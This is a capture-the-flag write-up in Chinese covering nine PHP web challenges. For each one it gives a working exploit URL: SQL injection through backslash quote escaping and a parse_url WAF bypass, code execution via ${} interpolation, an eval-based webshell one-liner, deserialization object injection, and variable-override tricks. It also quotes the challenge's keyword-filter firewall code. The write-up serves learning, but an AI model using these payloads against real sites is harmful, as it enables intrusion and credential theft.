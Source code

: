 ## Writeup

>PHP is the best language in the world! - Mark Twain

### challenge1:
htmlentities()转义了单引号和双引号，但是忽略了反斜线，所以可以用`\`将原SQL语句中的第二个单引号转义，成功逃逸引号。

payload:`http://foobar/challenge1.php?username=\&password=%20or%201=1%20limit%201%23`

### challenge2:
PHP中花括号的用法：字符串`${foobar}`中的foobar会被当作变量来处理，详情参见: http://php.net/manual/en/language.variables.variable.php

payload:`http://foobar/challenge2.php?str=${${phpinfo()}}`

> [将只能执行phpinfo的漏洞转换为一句话木马](http://www.jianshu.com/p/dd72566ca4df)
```
?str=${eval(substr(hex2bin(ff6576616c28245f524551554553545b635d293b),1,19))}&c=phpinfo();
```

### challenge3:
利用PHP和MySQL中浮点数精度不同的特性来做，在PHP中`1.0000000000001 != 1`而在MySQL中`1.0000000000001 == 1`

payload: `http://foobar/challenge3.phpid=1.0000000000001`

### challenge4:
foreach那一段代码避免了变量覆盖的发生，却也可能导致释放原有变量，通过通过传参$_CONFIG=anything来释放掉$_CONFIG变量，从而绕过过滤，剩下的就是SQL注入了。

payload: `http://foobar/challenge4.php?kw='%20and%200%20union%20select%20name,pass%20from%20users%20where%20id=1%23&_CONFIG=aaa`

### challenge5:
PHP弱类型导致的BUG，当`$var`是一个字符串/数组的时候，访问`$var["any string"]`跟访问`$var[intval("any string")]`效果是一样的，所以就有如下思路:
1. 访问`http://foobar/challenge5.php?userInfo=a:2:{s:2:"id";s:1:"8";s:4:"pass";s:12:"MAYBECHANGED";}&newPass=8`将账号jimbo18714的密码修改为8
2. 访问`http://foobar/challenge5.php?userInfo=s:1:"8";&newPass=1`将ID为1的账号密码修改为1

开始对2很迷,不知道为啥修改了id=1的用户的密码,而不是修改了id=8的,最后@yichin大牛指点之后才明白:

```php
if($oldPass == $userInfo['pass']){
    $userInfo['pass'] = $newPass; //这里修改了$userInfo,改成了 1  
    $query = 'UPDATE users SET pass = \''.mres($newPass).'\' WHERE id = \''.mres($userInfo['id']).'\';';
    mysql_query($query);
    echo 'Password Changed.';
}
``` 

### challenge6:
PHP中引用的用法，将`$o->enter`设置为`$o->secret`的引用，这样更改`$o->secret`时`$o->enter`也会随之更改。p.s.乌云知识库上面那个思路完全是在扯淡。

payload:`http://foobar/challenge6.php?pass=O:8:"just4fun":2:{s:5:"enter";N;s:6:"secret";R:2;}`

### challenge7:
`$_REQUEST`变量中如果碰到`$_GET`和`$_POST`重名的字段，`$_POST`的该字段会覆盖掉`$_GET`的该字段，可以借此特性绕过对`$_REQUEST`的数组判断，进而覆盖`$_SESSION`变量

payload: `http://foobar/challenge7.php?_SESSION[logged]=1 (POST: _SESSION=1)`

### challenge8:
PHP反序列化的一个小特性，反序列化时会忽略掉用来表示长度的数字前面的`+`，大概是把`+`当作正号来处理了吧。详情参考:http://www.2cto.com/kf/201309/246310.html

payload:`http://foobar/challenge8.php?data=O:%2B8:"just4fun":1:{s:8:"filename";s:9:"sbztz.php";}`

### challenge9:

漏洞挺明显的,主要是40行`parse_str($_SERVER['QUERY_STRING'])`
导致的变量覆盖漏洞.既然存在变量覆盖漏洞,那就想办法找到在
- `parse_str($_SERVER['QUERY_STRING'])`这句代码之前出现初始化的有用变量
- 或者是在`parse_str($_SERVER['QUERY_STRING'])`之后出现的未初始化变量.

看到第50-52行:
```php
 if($col) {
        $query_parts = $col . " like '%" . $keyword . "%'";
    }
```
如果`$col`为空,会导致`$query_parts`变为未初始化变量,就可以直接覆盖了.
所以 `$query_parts`可控,可以直接导入sql语句造成注入.

但是却有过滤
```php
function nojam_firewall(){
    $INFO = parse_url($_SERVER['REQUEST_URI']);
    parse_str($INFO['query'], $query);
    $filter = ["union", "select", "information_schema", "from"];
    foreach($query as $q){
        foreach($filter as $f){
            if (preg_match("/".$f."/i", $q)){
                nojam_log($INFO);
                die("attack detected!");
            }
        }
    }
}
```
需要利用PHP parse_url()函数的BUG来解题([https://bugs.php.net/bug.php?id=55511](https://bugs.php.net/bug.php?id=55511)),通过`///x.php?key=value`的方式可以使其返回 False，从而达到绕过WAF的目的

最后的payload为:
```
///index.php?search_cols=a|b&keyword=xxxx&operator=and&query_parts=123 union select 1,2,3,flag from flag
```
